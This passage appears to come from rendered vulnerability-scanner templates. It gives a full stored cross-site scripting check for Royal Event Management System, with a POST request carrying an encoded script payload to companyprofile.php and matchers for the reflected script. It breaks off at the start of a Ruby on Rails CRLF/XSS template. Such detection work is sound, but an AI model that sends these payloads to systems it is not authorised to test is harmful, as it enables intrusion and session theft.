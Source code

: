 **Type - word**
- words
    1. \<script>alert(document.domain)\</script>
    2. Report from 
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Royal Event Management System - Stored Cross-Site Scripting
## Description
- Royal Event Management System contains a stored cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.

- severity - high
- tags - xss,unauthenticated,cms,royalevent,packetstorm
## Requests
### Step - 1
```
POST /royal_event/companyprofile.php HTTP/1.1
Host: {{Hostname}}

companyname=%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E&regno=test&companyaddress=&companyemail=&country=India&mobilenumber=1234567899&submit=

```
### Matchers

**Type - word**
- words
    1. value=">\<script>alert(document.domain)\</script>" >

**Type - status**
- status
    1. 302

---
# Ruby on Rails - CRLF Injection and Cross-Site Scripting
## Description
- Ruby on Rails 6.0.0-6.0.3.1 contains a CRLF issue which allows JavaScript to be injected into the response, resulting in cross-site scripting.
- severity - medium
- tags - rails,xss,crlf,hackerone
## Requests
- Method - POST
- Method - POST
### URL